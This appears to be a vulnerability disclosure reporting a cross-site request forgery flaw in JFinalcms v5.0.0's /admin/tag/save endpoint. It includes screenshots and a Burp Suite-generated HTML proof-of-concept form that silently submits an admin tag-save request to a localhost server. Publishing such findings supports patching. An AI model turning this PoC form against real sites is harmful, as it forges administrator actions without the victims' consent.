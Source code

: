 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/save


![图片](https://github.com/cui2shark/cms/assets/52313275/625ccf4a-bf8c-49bd-bfb7-d2fd790c7ed7)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/dd4ab549-ec56-4b07-9063-cb6c278db262)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/183e4b23-8295-4728-9bcf-70bc29b0fb45)
